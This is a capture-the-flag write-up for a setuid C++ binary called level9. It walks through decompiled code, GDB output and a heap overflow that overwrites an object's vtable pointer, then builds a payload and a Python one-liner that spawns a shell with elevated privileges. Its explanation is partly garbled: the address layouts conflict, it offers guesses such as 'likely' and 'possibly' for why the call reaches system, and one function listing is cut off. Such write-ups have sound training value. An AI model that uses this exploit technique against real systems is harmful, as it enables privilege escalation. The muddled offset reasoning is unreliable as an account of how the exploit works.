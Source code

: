 LEVEL_9:
# 📚 Exploiting level9
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9 </br>
The level9 binary is a C++ program that runs with privileges for bonus0, where a class N with a vtable (for virtual functions like operator+ and operator-).
The program takes a command-line argument (argv[1]) and processes it through a vulnerable function.

Main Function :
```
  void main(int param_1, int param_2) {
    N *this;
    N *this_00;
    if (param_1 < 2) {
      _exit(1);  // Exit if no argv[1]
    }
    this = (N *)operator_new(0x6c);  // Allocate first N object (108 bytes)
    N::N(this, 5);  // Initialize with value 5
    this_00 = (N *)operator_new(0x6c);  // Allocate second N object
    N::N(this_00, 6);  // Initialize with value 6
    N::setAnnotation(this, *(char **)(param_2 + 4));  // Copy argv[1]
    (*(code *)**(undefined4 **)this_00)(this_00, this);  // Call vtable function
    return;
  }
```
N Constructor :
```
  void __thiscall N::N(N *this, int param_1) {
    *(undefined ***)this = &PTR_operator__08048848;  // Set vtable
    *(int *)(this + 0x68) = param_1;  // Set value at offset 0x68
    return;
  }
```
setAnnotation:
```
  void __thiscall N::setAnnotation(N *this, char *param_1) {
    size_t __n = strlen(param_1);
    memcpy(this + 4, param_1, __n);  // Vulnerable copy
    return;
  }
```

Vtable Functions:
```
cint __thiscall N::operator+(N *this, N *param_1) {
  return *(int *)(param_1 + 0x68) + *(int *)(this + 0x68);
}
int __thiscall N::operator-(N *this, N *param_1) {
```

Behavior:
  - Allocates two N objects of size 0x6c (108 bytes) on the heap.
  - Initializes this with value 5, this_00 with value 6, and both with vtable at 0x08048848.
  - Copies argv[1] into this + 4 using memcpy without bounds checking.
  - Calls a function from this_00’s vtable, passing this_00 and this.

## Vulnerability
The memcpy in setAnnotation copies argv[1] to this + 4 with length strlen(argv[1]), without checking if it fits within the first object’s 108 - 4 = 104 bytes of available space.
  - A long argv[1] overflows into the second object (this_00), starting at its heap metadata (~0x804a078).
  - Can overwrite this_00’s vtable pointer (~0x804a080), controlling the function called by (*(code *)this_00->vtable)(this_00, this).
```
Based on GDB and typical heap allocation :
(gdb) b *0x08048617
Breakpoint 1 at 0x8048617
(gdb) b *0x08048639
Breakpoint 2 at 0x8048639
(gdb) run TEST
Starting program: /home/user/level9/level9 TEST

Breakpoint 1, 0x08048617 in main ()
(gdb) si
0x08048530 in operator new ()
(gdb) finish
Run till exit from #0  0x08048530 in operator new ()
0x0804861c in main ()
(gdb) info registers eax
eax            0x804a008        134520840
(gdb) continue
Continuing.

Breakpoint 2, 0x08048639 in main ()
(gdb) si
0x08048530 in operator new ()
(gdb) finish
Run till exit from #0  0x08048530 in operator new ()
0x0804863e in main ()
(gdb) info registers
eax            0x804a078        134520952
ecx            0x20f21  134945
edx            0xb7eec440       -1209088960
ebx            0x804a008        134520840
esp            0xbffff700       0xbffff700
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x804863e        0x804863e <main+74>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) set $A = 0x804a008
(gdb) set $B = 0x804a078
(gdb) p/d $B - ($A + 4)
$1 = 108
```
First Object (this):
```
  Starts at ~0x804a008 (heap chunk with metadata).
  Layout:
  0x804a008: [prev_size]
  0x804a00c: [size]
  0x804a010: [vtable = 0x08048848]
  0x804a014: [setAnnotation data]
  ...
  0x804a078: [value = 5]
```
Second Object (this_00):
```
  Starts at ~0x804a078 (0x804a010 + 0x6c).
  Layout:
  text0x804a078: [prev_size]
  0x804a07c: [size]
  0x804a080: [vtable = 0x08048848]
  ...
  0x804a0e4: [value = 6]
```

Key Offsets (from setAnnotation start at 0x804a014):
```
To this_00 start (0x804a078): 0x804a078 - 0x804a014 = 100 bytes.
To this_00->vtable (0x804a080): 108 bytes.
To this_00->vtable + 4 (0x804a084): 112 bytes.
```

Use setAnnotation’s memcpy to overwrite the vtable pointer at 0x804a080.</br>
Set it to point to a heap address (0x0804a00c) that contains the address of system (0xb7d86060).
Place "/bin/sh" nearby (0x804a084) to serve as the argument to system.

### Payload Construction

Total Length: 4 + 104 + 4 + 8 = 120 bytes (ensures memcpy copies all data, as strlen stops at null bytes).

Components:
```
Address of system : 0xb7d86060.
"\xb7\xd8\x60\x60" (big-endian, incorrect).
"\x60\x60\xd8\xb7" (little-endian, correct for x86).
Written to 0x804a014 (start of setAnnotation).

+
NOPS : "\x90" * 104:
104 NOP bytes (0x90, no operation).
Fills from 0x804a018 to 0x804a07f, covering the first object and reaching this_00’s metadata.

+
Heap address: 0x0804a00c (heap metadata, likely size field).
Reversed: "\x0c\xa0\x04\x08".
Written to 0x804a080 (vtable pointer of this_00).

+
";/bin/sh":

8 bytes: semicolon (ignored) + "/bin/sh" + null terminator.
Written to 0x804a084 onward.

0x804a014: 0xb7d86060  # system
0x804a018: \x90\x90...  # 104 NOPs
0x804a080: 0x0804a00c  # vtable -> heap metadata
0x804a084: ;/bin/sh
```
The exploit command:

> ./level9 $(python -c 'print "\x60\x60\xd8\xb7" + "\x90" * 104 + "\x0c\xa0\x04\x08" + ";/bin/sh"') 

How the Exploit Works

Step-by-Step Execution:

Allocation:

this allocated at ~0x804a008, this_00 at ~0x804a078.


setAnnotation:

memcpy(this + 4, payload, strlen(payload)) copies 120 bytes to 0x804a014.
Overwrites:

0x804a014: system address (0xb7d86060).
0x804a080: Vtable pointer to 0x0804a00c.
0x804a084: ";/bin/sh".




Vtable Call:

(*(code *)this_00->vtable)(this_00, this).
this_00->vtable (0x804a080) = 0x0804a00c.
*(0x0804a00c) = 0xb7d86060 (from payload at 0x804a014, possibly due to heap alignment or earlier overwrite).
Calls system(this_00, this), where this_00 = 0x804a078.


system Call:

this_00 (0x804a078) is close to ";/bin/sh" at 0x804a084.
system interprets nearby memory as "/bin/sh" (the semicolon is ignored).
Spawns a shell with bonus0 privileges.




Why 0x0804a00c?:

0x0804a00c is the heap chunk’s size field (metadata).
The payload places system (0xb7d86060) at 0x804a014, but the vtable points to 0x0804a00c.
Likely, heap metadata or an earlier overwrite ensures 0x0804a00c points to 0x804a014 (or nearby), containing system.
